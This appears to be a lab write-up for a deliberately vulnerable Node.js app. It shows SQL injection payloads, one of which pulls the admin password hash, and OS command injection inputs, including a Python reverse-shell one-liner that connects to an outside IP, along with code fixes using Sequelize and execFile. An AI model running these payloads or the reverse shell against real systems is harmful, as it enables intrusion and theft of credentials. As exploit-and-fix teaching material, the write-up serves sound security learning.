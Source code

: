 # sql Injection
## Exploiting error based SQL injection

### Get the result of first user without knowing any user name with sqli
```
' or '1'='1
```

### Exfiltrate admin password hash
```
' UNION SELECT password,1 from Users where login='admin' -- //
```


---
## The Vulnerability 
~~~
No input validation or sanitization for user controlled inputs
~~~

`db.sequelize.query` is a method in the Sequelize ORM (Object-Relational Mapping) library for Node.js that can be used to execute raw SQL queries against a database.

By default, db.sequelize.query will use parameterized queries, meaning that any input values will be automatically escaped and treated as parameters rather than being concatenated into the SQL string. This helps to prevent SQL injection attacks and makes the query more efficient, as the database can cache the execution plan for the query.

However, it is possible to disable parameterization and use raw SQL queries by passing the `raw: true` option to the db.sequelize.query method. In this case, you should be careful to manually escape any input values to prevent SQL injection vulnerabilities.


You can check if the raw option is set to true or not by looking at the second parameter of the db.sequelize.query method.

If the second parameter is an object that contains a raw property set to true, then the query is a raw SQL query. For example:
![image](https://user-images.githubusercontent.com/120215854/233464025-25a66d2b-685f-4b6f-bb59-1ab16c589e38.png)

On the other hand, if the second parameter is not an object, or if it is an object that does not contain a raw property set to true, then the query is a parameterized query. For example:
![image](https://user-images.githubusercontent.com/120215854/233464100-51b4295b-3303-4966-9574-53301f8906e8.png)




## The fix

We can use `model's` `find` function and rely on in-built input sanitization of sequelize.

### Edits to the `core\appHandler.js`

```js
module.exports.userSearch = function (req, res) {
//Comment out the following lines 
	//var query = "SELECT name,id FROM Users WHERE login='" + req.body.login + "'";
	//db.sequelize.query(query, {
	//	model: db.User
	//}).then(user => {
	//	if (user.length) {
		db.User.find({where:{'login':req.body.login}}).then(user => {
			if (user) {
			var output = {
				user: {
					//name: user[0].name,
					//id: user[0].id
					name: user.name,
					id: user.id
				}
			}
			res.render('app/usersearch', {
				output: output
			})
		} else {
			req.flash('warning', 'User not found')
			res.render('app/usersearch', {
				output: null
			})
		}
	}).catch(err => {
		//req.flash('danger', 'Internal Error')
		req.flash('yei', 'Fixed it')
		res.render('app/usersearch', {
			output: null
		})
	})
}
```


---

<br><br>

# OS Command Injection

## Exploiting
##### Intended behaviour
```
Enter a valid IP
8.8.8.8
```
##### Exploiting by appending a OS command 
```
# List the files
8.8.8.8, ls

# Get the effective username of the current user when invoked
8.8.8.8, whoami
```

##### Getting a reverse shell
```
# Start a listener on your public IP
nc -nlvp 4444

# Run the following in vulnerable app function
8.8.8.8; python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("138.68.66.98",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' 
```


### The fix

~~~
We can use `exec_file` or `spawn` method under child_process which will prevent arbitrary command execution.
~~~

### Edits to the `core\appHandler.js`

```js
// Remove the following line or replace 'exec' with 'execFile'
const exec = require('child_process').exec;

// Add the follwing line 
const execFile = require('child_process').execFile;
```

Then 
```js
// Remove/Replace the line 
exec('ping -c 2 ' + req.body.address, function (err, stdout, stderr) {

// Add the line
execFile('ping', ['-c', '2', req.body.address] , function(err,stdout,stderr){
```



